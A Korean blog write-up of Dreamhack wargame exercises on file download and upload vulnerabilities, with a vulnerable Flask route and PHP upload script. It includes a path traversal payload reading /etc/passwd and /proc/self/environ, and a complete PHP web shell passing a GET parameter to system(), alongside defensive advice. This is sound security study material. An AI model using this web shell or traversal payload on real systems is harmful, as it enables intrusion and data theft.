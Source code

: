 ```yaml
---
layout : single
title : "STAGE8. File Vulnerability (2)"
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : File Vulnerability (2)

-  [x] File Download Vulnerability 실습
-  [x] 함께 실습 : image-storage
-  [x] 혼자 실습 : file-download-1

## File Download Vulnerability
파일 다운로드 취약점은 웹 서비스를 통해 서버의 파일 시스템에 존재하는 파일을 내려받는 과정에서 발생하는 보안 취약점이며, 이용자가 다운로드할 파일의 이름을 임의로 정할 수 있을 때 발생한다. 웹 서비스는 이용자가 파일을 다운받거나, 이미지를 불러올 때 특정 디렉토리에 있는 파일만 접근하도록 해야하는데, Path Traversal을 이용한 파일 다운로드 취약점은 파일 이름을 직접 입력받아 임의 디렉토리에 있는 파일을 다운로드 받을 수 있는 취약점을 뜻한다. <br>

|파일 다운로드 취약점이 자주 발생하는 URL 패턴|
|:------|
|https://vulnerable-web.dreamhack.io/download/?filename=notes.txt|
|https://vulnerable-web.dreamhack.io/download/?filename=../../../../../../etc/passwd|
|https://vulnerable-web.dreamhack.io/images.php?fn=6ed0dd02806fa89e233b84f4.png|


### File Download Vulnerability 실습

아래는 실습 서버 코드이다. 환경 변수로부터 가지고 오는 Secret 값을 파일 다운로드 취약점을 이용해 획득해보자

```python
# ...
Secret = os.environ("Secret")
# ...
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("./uploads/" + filename, "rb").read()
    return content
# ...
```

프로세스의 환경변수는 /proc/self/environ에서 확인할 수 있으며, 이용자가 프로세스 호출 전 환경변수를 bash의 명령어로 설정했다면, .bash_history에서도 이를 알 수 있다. 아래는 proc/self/environ에서 Secret 값을 읽은 사진이다

<img src = "/images/webbackground/14.png"><br>


### File Vulnerability 방지하기
업로드 취약점을 막으려면 개발자는 업로드 디렉토리를 웹 서버에서 직접 접근할 수 없도록 하거나, 업로드 디렉토리에서 CGI가 실행되지 않도록 해야하며, 업로드 된 파일 이름을 그대로 사용하지 않고 basepath와 같은 함수를 통해 파일 이름을 검증한 후 사용해야 한다. 또한, 허용할 확장자를 명시하여 그 외 확장자는 업로드될 수 없도록 해야한다.
<br><Br>
다운로드 취약점을 막으려면 요청된 파일 이름을 basepath와 같은 함수를 통해 검증하거나, 파일 이름과 1:1 맵핑되는 키를 만들어 이용자로부터 파일 이름이 아닌 키를 요청하도록 해야한다

## 함께 실습 : image-storage

파일 업로드 취약점을 이용해 flag.txt에 있는 Flag 획득하기

### 웹 서비스 분석
##### 인덱스 페이지

list.php와 upload.php로 이동하는 메뉴 출력

```php
<li><a href="/">Home</a></li>
<li><a href="/list.php">List</a></li>
<li><a href="/upload.php">Upload</a></li>
```

##### 파일 목록 리스팅

list.php는 $directory의 파일 중 ., .., index.html을 제외하고 나열한다

```php
<?php
    $directory = './uploads/';
    $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
    foreach ($scanned_directory as $key => $value) {
        echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
    }
?> 
```

##### 파일 업로드

upload.php는 이용자가 업로드한 파일을 uploads 폴더에 복사하며 이용자는 http://host1.dreamhack.games:[PORT]/uploads/[FILENAME] 를 통해 접근할 수 있다. 같은 이름의 파일이 존재한다면 already exists라는 메세지를 반환한다. 업로드할 파일에 대한 어떠한 검사도 진행하지 않으므로, 웹 셸 업로드 공격에 취약하다. 

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

### 익스플로잇

아래와 같은 php 웹셸 작성 후 업로드

```php
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

업로드가 끝나면, 저장된 위치를 다음과 같이 보여준다

<img src = "/images/wargame/12.png"><br>

위 경로로 이동하여 업로드 된 파일을 연다

<img src = "/images/wargame/13.png"><br>

시스템 명령어 cat /flag.txt 를 통해 flag.txt에 저장된 글을 읽어온다

<img src = "/images/wargame/14.png"><br>

##### 위와 같은 공격으로부터 서비스를 보호하려면 ?

파일 업로드와 관련된 코드에 여러 검사 로직을 추가해야한다. 이 중 대표적인 방법은 파일의 확장자를 제한하는 것이다. 웹 리소스는 크게 정적 리소스와 동적 리소스로 분류할 수 있으며, 정적 리소스는 이미지, 비디오와 같이 서버에서 실행되지 않는 리소스, 동적 리소스는 php, jsp와 같이 서버에서 실행되는 것들을 가리킨다. 동적 리소스의 확장자를 제한하면 파일 업로드 취약점을 통한 RCE(Remote Code Execution : 원격 코드 실행) 공격으로부터 서버를 보호할 수 있다. <br>

또 다른 방법은 AWS, Azure, GCP 등의 정적 스토리지를 이용하는 것이다. 이는 서버의 파일 시스템을 이용하지 않기 때문에 파일 업로드 취약점이 웹 서버 공격으로 이어지는 것을 방지할 수 있다.

## 혼자 실습 : file-download-1

파일 다운로드 취약점이 존재하는 웹 서비스로, flag.py를 다운받으면 플래그를 획득할 수 있다.